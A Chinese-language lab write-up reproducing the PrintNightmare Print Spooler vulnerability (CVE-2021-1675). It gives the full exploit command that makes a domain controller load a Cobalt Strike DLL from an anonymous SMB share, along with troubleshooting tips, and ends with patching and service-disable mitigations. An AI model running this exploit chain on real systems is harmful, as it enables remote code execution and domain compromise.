 ## Windows Spooler Service RCE(CVE-2021-1675 )

## 漏洞描述

该漏洞可用于实现 LPE 和 RCE。至于 RCE 部分，您需要一个用户在 Spooler 服务上进行身份验证。但是，这在域环境中仍然很重要。由于通常 DC 会启用 Spooler 服务，因此被入侵的域用户可能会利用此漏洞来控制 DC

## 漏洞影响

> Windows Server 2019 (Server Core installation)

> Windows Server 2019

> Windows Server 2016 (Server Core installation)

> Windows Server 2016

> Windows Server 2012 R2 (Server Core installation)

> Windows Server 2012 R2

> Windows Server 2012 (Server Core installation)

> Windows Server 2012

> Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)

> Windows Server 2008 R2 for x64-based Systems Service Pack 1

> Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)

> Windows Server 2008 for x64-based Systems Service Pack 2

> Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)

> Windows Server 2008 for 32-bit Systems Service Pack 2

> Windows Server, version 2004 (Server Core installation)

> Windows RT 8.1

> Windows 8.1 for x64-based systems

> Windows 8.1 for 32-bit systems

> Windows 7 for x64-based Systems Service Pack 1

> Windows 7 for 32-bit Systems Service Pack 1

> Windows 10 Version 1607 for x64-based Systems

> Windows 10 Version 1607 for 32-bit Systems

> Windows 10 for x64-based Systems

> Windows 10 for 32-bit Systems

> Windows Server, version 20H2 (Server Core Installation)

> Windows 10 Version 20H2 for ARM64-based Systems

> Windows 10 Version 20H2 for 32-bit Systems

> Windows 10 Version 20H2 for x64-based Systems

> Windows 10 Version 2004 for x64-based Systems

> Windows 10 Version 2004 for ARM64-based Systems

> Windows 10 Version 2004 for 32-bit Systems

> Windows 10 Version 21H1 for 32-bit Systems

> Windows 10 Version 21H1 for ARM64-based Systems

> Windows 10 Version 21H1 for x64-based Systems

> Windows 10 Version 1909 for ARM64-based Systems

> Windows 10 Version 1909 for x64-based Systems

> Windows 10 Version 1909 for 32-bit Systems

> Windows 10 Version 1809 for ARM64-based Systems

> Windows 10 Version 1809 for x64-based Systems

> Windows 10 Version 1809 for 32-bit Systems

## 漏洞复现

复现漏洞利用的Windows版本是Windows Server 2019 Version 1809，使用了 https://github.com/cube0x0/CVE-2021-1675 项目的python版本exp。

经过反复测试后，发现远程命令执行需要满足一些条件：

1. 创建的smb服务允许匿名访问。
2. 验证使用普通域用户的用户名和密码。
3. 需要在域环境内。

首先在域控上添加一个普通域用户，设置用户名和密码

![image-20210704080310891](/resource/Windows-Spooler-Service/image-20210704080310891.png)



因为spoolsv.exe是x64的，所以我们这里Cobalt Strike也生成x64的dll

![image-20210704080316757](/resource/Windows-Spooler-Service/image-20210704080316757.png)

按照 https://github.com/cube0x0/CVE-2021-1675 的smb设置方法，在域内一台主机上提供匿名访问权限的共享文件

![image-20210704080320214](/resource/Windows-Spooler-Service/image-20210704080320214.png)

在域内的其他主机上放置好生成的artifact.dll，设置分享目录并允许匿名访问，在域控上必须能直接获取到文件

![image-20210704080323986](/resource/Windows-Spooler-Service/image-20210704080323986.png)



使用exp，参数分别是刚才创建的新域用户的用户名和密码，还有DC的ip，最后是smb共享文件的路径

```
python CVE-2021-1675.py testUser:123qweASD@192.168.92.150 \\192.168.92.130\share\artifact.dll
```

这里会遇到一些坑，如果报错 **Error: code: 0x5 - rpc_s_access_denied** 说明smb还不能匿名访问，如果连续执行成功，但是只复制了dll并未执行，可能是验证用户不是普通域用户账号。

使用Procmon发现测试用的 artifact.dll 已经被spoolsv.exe加载：

![image-20210704080331145](/resource/Windows-Spooler-Service/image-20210704080331145.png)



上线成功

![image-20210704080334640](/resource/Windows-Spooler-Service/image-20210704080334640.png)



## 防御方法

安装微软 **CVE-2021-1675** 漏洞补丁

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675

关闭打印机服务

```
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

## 参考文章和项目

- https://github.com/cube0x0/CVE-2021-1675
- https://github.com/afwu/PrintNightmare
- https://blog.csdn.net/ShelleyLiu0415/article/details/47836855
- http://noahblog.360.cn/cve-2021-1675/
- https://github.com/cube0x0/CVE-2021-1675/issues/19